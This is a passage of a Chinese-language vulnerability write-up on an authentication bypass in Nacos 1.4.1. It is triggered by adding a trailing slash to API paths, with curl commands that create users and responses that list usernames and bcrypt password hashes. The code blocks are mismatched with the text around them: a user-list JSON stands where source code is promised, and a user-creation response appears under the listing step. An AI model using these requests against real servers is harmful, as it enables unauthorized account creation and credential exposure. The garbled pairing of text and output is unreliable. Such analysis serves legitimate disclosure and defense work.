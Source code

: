 urlKey 这个 key，是否能从 urlLookup 这个 ConcurrentHashMap 中获取到映射值

而 urlKey 的组成中，存在着 path 这一部分，而这一部分的生成，恰恰存在着问题，它是通过如下方式获得的：

```
{
    "totalCount": 1,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        }
    ]
}
```

一个正常的访问，比如`curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users?username=test&password=test'`，得到的 path 将会是`/nacos/v1/auth/users`，而通过特殊构造的 url，比如`curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users/?username=test&password=test' --path-as-is`，得到的 path 将会是`/nacos/v1/auth/users/`

通过该方式，将能控制该 path 多一个末尾的斜杆'/'，导致从 urlLookup 这个 ConcurrentHashMap 中获取不到 method，为什么呢，因为 nacos 基本全部的 RequestMapping 都没有以斜杆'/'结尾，只有非斜杆'/'结尾的 RequestMapping 存在并存入了 urlLookup 这个 ConcurrentHashMap，那么，最外层的`method == null`条件将能满足，从而，绕过该鉴权机制。

### 二、漏洞影响范围

影响范围：  
1.4.1

### 三、漏洞复现

1. 访问用户列表接口

```
{
    "code":200,
    "message":"create user ok!",
    "data":null
}
```

可以看到，绕过了鉴权，返回了用户列表数据

```
{
    "totalCount": 2,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        },
        {
            "username": "test",
            "password": "$2a$10$5Z1Kbm99AbBFN7y8Dd3.V.UGmeJX8nWKG47aPXXMuupC7kLe8lKIu"
        }
    ]
}
```
